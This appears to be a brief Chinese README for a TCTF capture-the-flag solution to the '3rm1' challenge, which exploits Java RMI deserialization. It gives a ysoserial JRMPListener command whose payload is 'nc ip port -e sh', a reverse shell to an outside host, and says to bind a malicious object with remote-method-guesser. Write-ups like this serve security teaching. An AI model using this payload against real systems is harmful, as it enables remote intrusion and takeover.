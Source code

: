 # TCTF_3rm1_solution
tctf 3rm1 solution

使用ysoserial编写exp打包，使用JRMPListener将序列化payload传过去.

java -cp  ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 4444 TCTF3rmiExp 'nc ip port -e sh'

使用 https://github.com/qtc-de/remote-method-guesser 绑定恶意对象.
访问恶意对象即可触发反序列化.
